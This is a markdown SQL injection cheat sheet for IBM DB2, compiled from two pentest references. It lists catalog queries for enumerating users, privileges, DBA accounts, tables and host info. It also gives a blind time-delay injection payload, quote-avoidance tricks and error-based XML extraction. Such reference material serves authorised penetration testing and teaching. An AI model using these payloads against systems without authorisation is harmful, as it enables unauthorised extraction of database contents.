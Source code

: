 # SQLi - DB2 (IBM)

### Pentest Monkey DB2 SQL Injection Cheat Sheet
- http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet

| Enumerate    | Command                 |
|--------------|-------------------------|
|Version|	`select versionnumber, version_timestamp from sysibm.sysversions;`|
|Comments|	`select blah from foo; -- comment like this`|
|Current User|	`select user from sysibm.sysdummy1;`<br> `select session_user from sysibm.sysdummy1;` <br>`select system_user from sysibm.sysdummy1;`|
|List Users|	N/A (I think DB2 uses OS-level user accounts for authentication.)<br>	Database authorities (like roles, I think) can be listed like this:	`select grantee from syscat.dbauth;`|
|List Password Hashes|	N/A (I think DB2 uses OS-level user accounts for authentication.)|
|List Privileges|	`select * from syscat.tabauth;` — privs on tables<br>	`select * from syscat.dbauth where grantee = current user;`<br>	`select * from syscat.tabauth where grantee = current user;`<br>	`select * from SYSIBM.SYSUSERAUTH` – List db2 system privilegies|
|List DBA Accounts|	`select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’` or `SYSADMAUTH = ‘G’`|
|Current Database|	`select current server from sysibm.sysdummy1;`|
|List Databases	|`SELECT schemaname FROM syscat.schemata;`|
|List Columns|	`select name, tbname, coltype from sysibm.syscolumns;`|
|List Tables|	`select name from sysibm.systables;`|
|Find Tables From Column Name|	`select tbname from sysibm.syscolumns where name=’username’`|
|Select Nth Row|	`select name from (SELECT name FROM sysibm.systables order by name fetch first N+M-1 rows only) sq order by name desc fetch first N rows only;`|
|Select Nth Char|	`SELECT SUBSTR(‘abc’,2,1) FROM sysibm.sysdummy1;`  — returns b|
|Bitwise AND|	This page seems to indicate that DB2 has no support for bitwise operators! (404)|
|ASCII Value -> Char|	`select chr(65) from sysibm.sysdummy1;` — returns ‘A’|
|Char -> ASCII Value|	`select ascii(‘A’) from sysibm.sysdummy1;` — returns 65|
|Casting|	`SELECT cast(’123′ as integer) FROM sysibm.sysdummy1;`<br>`SELECT cast(1 as char) FROM sysibm.sysdummy1;`|
|String Concatenation|	`SELECT ‘a’ concat ‘b’ concat ‘c’ FROM sysibm.sysdummy1;` — returns ‘abc’<br>	`select ‘a’ || ‘b’ from sysibm.sysdummy1;` — returns ‘ab’|

### Security Et Alii
- https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/

`*` indicates different from PentestMonkey (identical items have been removed from the table below)

| Enumerate    | Command                 |
|--------------|-------------------------|
|Version`*` | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo`<br>`select getvariable(‘sysibm.version’) from sysibm.sysdummy1` — (v8+)<br>`select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo`<br>`select service_level,bld_level from sysibmadm.env_inst_info`|
|List Users`*` | DB2 uses OS accounts. Those with DB2 access can be retrieved with:<br>`select distinct(authid) from sysibmadm.privileges` — priv required<br>`select grantee from syscat.dbauth` — incomplete results<br>`select distinct(definer) from syscat.schemata` — more accurate<br>`select distinct(grantee) from sysibm.systabauth` — same as previous|
|List DBA Accounts`*`|`select distinct(grantee) from sysibm.systabauth where CONTROLAUTH=’Y’`|
|List Databases`*`|`select distinct(table_catalog) from sysibm.tables`|
|List Columns`*` | `select name, tbname, coltype from sysibm.syscolumns` — also valid syscat and sysstat|
|Select Nth Row`*`|`select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only`|
|Bitwise AND/OR/NOT/XOR`*`|`select bitand(1,0) from sysibm.sysdummy1` — returns 0. Also available bitandnot, bitor, bitxor, bitnot|
|IF Statement`*`| Seems only allowed in stored procedures. Use case logic instead.|
|Case statement`*` | `select CASE WHEN (1=1) THEN ‘AAAAAAAAAA’ ELSE ‘BBBBBBBBBB’ END from sysibm.sysdummy1` |
|Avoiding Quotes`*` | `SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1` — returns “ADRI”. Works without select too |
|Time Delay* | `' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68` — If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. However, if user doesn’t start with ascii 68, the heavy query won’t execute and thus the response will be faster. |
|Serialize to XML (for error based)* | `select xmlagg(xmlrow(table_schema)) from sysibm.tables` — returns all in one xml-formatted string<br>`select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)` — Same but without repeated elements<br> `select xml2clob(xmelement(name t, table_schema)) from sysibm.tables` — returns all in one xml-formatted string (v8). May need `CAST(xml2clob(… AS varchar(500))` to display the result.|
|Command Execution`*`|Only allowed through procedures or UDFs|
|Local File Access`*`|I think this is only available through stored procedures or db2 tool.|
|Hostname/IP and OS Info`*`|`select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` — requires priv|
|Location of DB Files`*`|`select * from sysibmadm.reg_variables where reg_var_name=’DB2PATH’` — requires priv|
|System Config`*`|`select dbpartitionnum, name, value from sysibmadm.dbcfg where name like ‘auto_%’` — Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.<br> `select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg` — Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.|
|Default System Databases`*`|What makes sense for DB2 is to know default System Schemas (and maybe tables): `SYSIBM/SYSCAT/SYSSTAT/SYSPUBLIC/SYSIBMADM/SYSTOOLS`|